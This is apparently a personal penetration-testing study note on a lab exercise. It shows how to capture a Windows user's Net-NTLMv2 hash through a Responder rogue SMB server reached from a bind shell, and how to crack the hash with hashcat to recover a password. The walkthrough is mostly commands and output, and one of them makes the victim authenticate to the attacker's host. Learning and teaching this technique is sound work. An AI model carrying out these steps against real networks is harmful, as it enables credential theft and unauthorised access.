


# Cracking Net-NTLMv2
Net-NTLMv2 is a "more correct" name for [NTLMv2](../../networking/protocols/NTLM.md#NTLMv2). Just like NTLM, its used for managing the authentication for users and processes on [Windows](../../computers/windows/README.md) clients, servers, and networks. 
## Why Crack?
In some cases, we find credentials for or gain access as *non-privileged users/ accounts* which means we *can't use [mimikatz](../../cybersecurity/TTPs/actions-on-objective/tools/mimikatz.md)* to extract passwords for NTLM hashes. But Net-NTLMv2 can be abused in these cases instead. NTLMv2 is older than [kerberos](../../networking/protocols/kerberos.md) which is a more secure authentication method. But it's still common to find systems using NTLMv2.
## Example Scenario
Let's say we want to gain access to an [SMB](../../networking/protocols/SMB.md) share on a Windows 2022 server from a Windows 11 client. If we use Net-NTLMv2, then the authentication process will look like this:
1. We send a request to the server outlining details for the connection to the SMB share
2. The server responds *w/ a challenge* 
3. We encrypt our response *using our NTLM hash* to prove our identity
4. The server checks our response and either grants or denies us access

It's important to note that the NTLMv2 auth process is much more secure than in NTLMv1. In v2, the client responds to the server's challenge with *two client challenges*. One client challenge is just a random number the client generates. But the second includes a *timestamp* as well as some other information. The timestamp is what makes NTLMv2 more secure, because it prevents relay/replay attacks like [pass the hash](passing-NTLM.md).
### Responder
To exploit NTLMv2 we need to first *capture an NTLMv2 hash* so we can crack it. We can do this by sending capturing an NTLMv2 authentication between *our target* and *a system we control*. (I believe the hash we're actually trying to capture is the resulting response value from when the target authenticated with a server using the NTLMv2 [Challenge-Response Mechanism](../../networking/protocols/NTLM.md#Challenge-Response%20Mechanism)... but I could be wrong?).

We can use the [responder](../../cybersecurity/TTPs/exploitation/tools/responder.md) tool to prepare our system for handling the authentication process and capturing the Net-NTLMv2 hash from the target (which they use to authenticate).
#### Responder
Responder includes a built in SMB server which can handle the authentication process and show us the targets Net-NTLMv2 hash. Responder can offer other server types for other attacks scenarios (like [LLMNR-poisoning](../../cybersecurity/TTPs/exploitation/LLMNR-poisoning.md)), but we'll focus on using it to capture our hash.
### Initial Access - `paul`
For this scenario, assume we've established a [bind-shell](../../cybersecurity/TTPs/exploitation/bind-shell.md) on a machine called `Files01`. If we issue the `whoami` command, we cand see which user we're running the bind shell as:
```bash
nc 192.168.50.211 4444
Microsoft Windows [Version 10.0.20348.707]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
whoami
files01\paul
```
Now we can use `net user paul` to find out more about the `paul` user and what kind of access and permissions he has:
```powershell
C:\Windows\system32> net user paul
net user paul
User name                    paul
Full Name                    paul power
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/3/2022 10:05:27 AM
Password expires             Never
Password changeable          6/3/2022 10:05:27 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   6/3/2022 10:29:19 AM

Logon hours allowed          All

Local Group Memberships      *Remote Desktop Users *Users                
Global Group memberships     *None                 
The command completed successfully.
```
Unfortunately `paul` is not a local Administrator. But the account is a member of the `Remote Desktop Users` group, which means we can use his account to connect to the system via [RDP](../../networking/protocols/RDP.md). 
### Setting up Rogue SMB Server
Since `paul` is not an admin, we can't use his account to extract hashes or passwords via mimikatz. Instead, we can use Responder to capture an NTLMv2 hash via an SMB share we setup. The SMB share *does not need to be on the target system*, we can set it up from our attacking Kali box. Then, we'll force the `paul` account to access the share, and Responder will capture `paul`'s NTLMv2 hash as the account tries to authenticate with out SMB server.
#### Running Responder on the Right Interface
We can use `ip a` to choose the right *network interface* to setup our SMB server on:
```bash
ip a
...
3: tap0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 1000
    link/ether 42:11:48:1b:55:18 brd ff:ff:ff:ff:ff:ff
    inet 192.168.119.2/24 scope global tap0
       valid_lft forever preferred_lft forever
    inet6 fe80::4011:48ff:fe1b:5518/64 scope link 
       valid_lft forever preferred_lft forever
```
Then we can tell Responder to listen on that interface by giving it via the `-I` flag (we want it to listen on our `tap0` interface):
```bash
sudo responder -I tap0 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.1.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C
...
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
...
[+] Listening for events... 
```
### Capturing the Hash
Now that Responder and its SMB server are listening, all we need to do is *trigger a request to the server* from the `paul` user. Assuming we still have our bind shell connected to `Files01`, then we can just issue the `dir` command with the network path to our share:
```powershell
C:\Windows\system32>dir \\192.168.119.2\test
dir \\192.168.119.2\test

Access is denied.
```
If we check our responder tag, we should see some output including `paul`'s `NTLMv2-SSP` hash:
```bash
...
[+] Listening for events... 
[SMB] NTLMv2-SSP Client   : ::ffff:192.168.50.211
[SMB] NTLMv2-SSP Username : FILES01\paul
[SMB] NTLMv2-SSP Hash     : paul::FILES01:1f9d4c51f6e74653:795F138EC69C274D0FD53BB32908A72B:010100000000000000B050CD1777D801B7585DF5719ACFBA0000000002000800360057004D00520001001E00570049004E002D00340044004E004800550058004300340054004900430004003400570049004E002D00340044004E00480055005800430034005400490043002E00360057004D0052002E004C004F00430041004C0003001400360057004D0052002E004C004F00430041004C0005001400360057004D0052002E004C004F00430041004C000700080000B050CD1777D801060004000200000008003000300000000000000000000000002000008BA7AF42BFD51D70090007951B57CB2F5546F7B599BC577CCD13187CFC5EF4790A001000000000000000000000000000000000000900240063006900660073002F003100390032002E003100360038002E003100310038002E0032000000000000000000 
```
Our attack with Responder is a *Machine in the Middle* attack and essentially looks like this:


> [Watch Dogs Academy: Attacking AD w/ Responder](https://watchdogsacademy.gitbook.io/attacking-active-directory/exploiting-with-poison-and-relay/responder)

The hash we captured with Responder (`NTLMv2-SSP`) *is the client's response to the server's challenge* (at the bottom of the following screenshot):


> [Watch Dogs Academy: Attacking AD w/ Responder](https://watchdogsacademy.gitbook.io/attacking-active-directory/exploiting-with-poison-and-relay/responder)
### Cracking the Hash
Now that we have the hash, we can use [hashcat](../../cybersecurity/TTPs/cracking/tools/hashcat.md) to crack it and get `paul`'s password. First, we need to echo the hash into a file called `paul.hash` (and make sure there are no newline characters):
```bash
echo -n "<paul's hash>" > paul.hash
```
Once we have that, we can check for the right cracking mode for hashcat by grepping the help output for `ntlm`:
```bash
hashcat --help | grep -i "ntlm"
   5500 | NetNTLMv1 / NetNTLMv1+ESS                           | Network Protocol
  27000 | NetNTLMv1 / NetNTLMv1+ESS (NT)                      | Network Protocol
   5600 | NetNTLMv2                                           | Network Protocol
  27100 | NetNTLMv2 (NT)                                      | Network Protocol
   1000 | NTLM                                                | Operating System
```
Looks like we need mode `5600`.  Now we can crack it using hashcat ant the `rockyou.txt` wordlist:
```bash
hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force
hashcat (v6.2.5) starting
...

PAUL::FILES01:1f9d4c51f6e74653:795f138ec69c274d0fd53bb32908a72b:010100000000000000b050cd1777d801b7585df5719acfba0000000002000800360057004d00520001001e00570049004e002d00340044004e004800550058004300340054004900430004003400570049004e002d00340044004e00480055005800430034005400490043002e00360057004d0052002e004c004f00430041004c0003001400360057004d0052002e004c004f00430041004c0005001400360057004d0052002e004c004f00430041004c000700080000b050cd1777d801060004000200000008003000300000000000000000000000002000008ba7af42bfd51d70090007951b57cb2f5546f7b599bc577ccd13187cfc5ef4790a001000000000000000000000000000000000000900240063006900660073002f003100390032002e003100360038002e003100310038002e0032000000000000000000:123Password123
...
```
The password for the `paul` account is `123Password123`!

> [!Resources]
> - [Watch Dogs Academy: Attacking AD w/ Responder](https://watchdogsacademy.gitbook.io/attacking-active-directory/exploiting-with-poison-and-relay/responder)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.